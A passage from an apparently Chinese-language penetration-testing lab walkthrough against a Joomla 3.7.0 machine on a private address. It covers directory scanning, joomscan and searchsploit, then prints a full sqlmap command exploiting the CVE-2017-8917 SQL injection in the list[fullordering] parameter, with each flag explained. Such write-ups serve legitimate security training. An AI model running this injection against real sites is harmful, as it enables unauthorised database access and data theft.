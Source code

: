 dirhunt 目录扫描看看

```bash
pip3 install dirhunt
dirhunt http://192.168.197.147/

PS: dirhunt使用不了，也可以使用dirbhttp://192.168.197.147/ 
kali自带的工具
```
![Alt text](./assets/4.png)


没啥有用的东西,用 joomscan 试试,这个是 OWASP 的一个专门扫描 Joomla 漏洞的工具

```bash
git clone https://github.com/rezasp/joomscan.git
cd joomscan
perl joomscan.pl -u http://192.168.197.147/
```

![5](/assets/5.png)

没有啥东西，不过起码告诉了我版本是 3.7.0

---

# 中期-漏洞利用

使用 searchsploit 找找这个版本的漏洞

```bash
searchsploit -w Joomla 3.7.0

Desc:
`searchsploit` 是一个用于在 Exploit-DB（Exploit Database）中搜索漏洞利用代码的工具。可以使用它来查找特定软件版本的漏洞利用代码。
`searchsploit -w Joomla 3.7.0` 旨在搜索 Joomla 3.7.0 版本的漏洞利用代码，并显示详细信息。

- `searchsploit`：启动 `searchsploit` 工具。
- `-w`：显示匹配项的详细信息，包括漏洞利用代码的详细描述和使用说明。
- `Joomla 3.7.0`：指定要搜索的目标，即 Joomla 的 3.7.0 版本。

执行这条命令后，`searchsploit` 将在 Exploit-DB 数据库中搜索与 Joomla 3.7.0 相关的漏洞利用代码，并显示相关的详细信息，包括漏洞的描述、漏洞利用代码的路径等。
```
![6](/assets/6.png)
Joomla 3.7.0 有个 CVE-2017-8917 SQL 注入漏洞
打开这个URL可以查看到详细的信息
![7](/assets/7.png)

直接 SQLMAP 走起,先使用using sqlmap 爆出表信息
```bash
sqlmap -u "http://192.168.197.147/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" 
--risk=3 --level=5 --random-agent --dbs -p list[fullordering]

Desc:
这条命令是使用 SQLMap 工具对目标 URL 进行 SQL 注入测试的 解释一下这条命令的各个参数：

- `sqlmap`：SQLMap 工具的命令。
- `-u "http://192.168.197.147/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"`
：指定目标 URL，即要进行 SQL 注入测试的网址。在这个 URL 中，`list[fullordering]` 参数被认为是一个可能存在 SQL 注入漏洞的参数。
- `--risk=3`：设置 SQL 注入测试的风险级别。风险级别越高，检测的更加深入，但也可能会导致误报。在这里，风险级别被设置为 3。
- `--level=5`：设置 SQL 注入测试的等级。等级越高，检测的更加深入，但可能会导致更多的流量和负载。在这里，等级被设置为 5。
- `--random-agent`：使用随机的 User-Agent 头部来隐藏 SQLMap 的身份。
- `--dbs`：指示 SQLMap 在发现数据库后停止并显示数据库列表。
- `-p list[fullordering]`：指定用于 SQL 注入测试的参数。
```